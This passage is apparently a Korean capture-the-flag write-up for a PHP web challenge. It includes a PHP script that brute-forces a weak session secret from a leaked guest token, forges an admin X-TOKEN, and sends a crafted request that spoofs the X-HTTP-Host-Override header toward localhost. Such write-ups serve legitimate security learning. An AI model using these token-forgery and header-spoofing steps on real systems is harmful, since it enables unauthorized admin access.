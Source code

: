 위코드를 보면 다음과 같은 단계를 거치는 것을 확인할 수 있다.

1. `$_SESSION["X-SECRET"]` 값의 존재를 확인하고 없으면 `gen()` 함수를 호출하여 실행시킨다.
2. `$_COOKIE['USER']` 가 설정되어 있지 않다면, `$_SESSION['username']`을 확인하여 사용자의 쿠키에 USER를 할당한다.
3. `$_COOKIE['X-TOKEN']`이 설정되어 있지 않다면, `$_SESSION['X-SECRET']`의 값과 guest문자열을 이어 붙여서 sha256으로 hashing하여 `X-Token`으로 설정한다는 사실이다.
4. `$_SERVER['HTTP_X_HTTP_HOST_OVERRIDE']`가 설정되어 있지않다면 `$_SERVER['REMOTE_ADDR']`로 설정하고, 설정되어 있으면 사용자의 Header값으로 설정하는 것이다. 요기서 `$_SERVER['HTTP_X_HTTP_HOST_OVERRIDE']`의 Header 값은 `X-HTTP-Host-Override` 다.

그럼 가장 먼저 해결해야할 것은 X-SECRET 값이다. 해당 값은 session 값이고, Session Destory가 되지 않는 이상 계속 같은 값으로 유지된다. 즉 계속 바뀌지 않아 고정된 값이라는 것을 알 수 있다. 그리고 그 고정된 값이 guest 문자열과 함께 sha256으로 해싱되어 나한테 반환되었다라는 것을 알 수 있다. 

이를 통해 나에게 반환되었던 X-Token값과 `substr(sha1((string)rand(0,getrandmax())),0,20);` 값을 Brute Forcing하여 어떤 값이 X-Secret에 들어갔는지 확인할 수 있다. 코드는 다음과 같다.

```php
<?php
function gen(){
    for($i=getrandmax(); $i >= 0; $i--){
        $secret = substr(sha1((string)$i),0,20);
        if("48f4bdf130d5f895c4ded1a9c3b9a03a30f580d25412886b0d665baa9e8f07eb" === hash("sha256", $secret."guest")){
            echo $i . "\r\n"; # 1713778683
            return $secret;
        }
    }
}

$secret =  gen();
echo $secret . "\r\n"; # 740c1a7d366b5dd7047a
$token = hash("sha256", $secret."admin");
echo $token . "\r\n"; # 9cf35b150a5bcdd1fac0804ddab73d4fb9208d8d40500978d9d902ed7e63f9c4

?>
```

위 코드를 통해 X-SECRET 값을 알아내고, 바로 X-Token 값도 admin 권한으로 하여 새롭게 뽑았다.

그리하여 `X-HTTP-Host-Override` 헤더를 추가하여 요청을 날리면 위 코드는 무사히 통과되는 것을 확인할 수 있다.

```
[ Request ]
POST /index.phtml?fun_004ded7246=load HTTP/1.1
Host: 114.203.209.112:8000
Content-Type: application/x-www-form-urlencoded
Content-Length: 20
Cookie: PHPSESSID=km8242du1i5ctdu87piomkf744; USER=admin; X-TOKEN=9cf35b150a5bcdd1fac0804ddab73d4fb9208d8d40500978d9d902ed7e63f9c4; 
X-HTTP-Host-Override: 127.0.0.1

url=http://127.0.0.1

[ Response ]
HTTP/1.1 200 OK
...

IP not allowed or host error
```
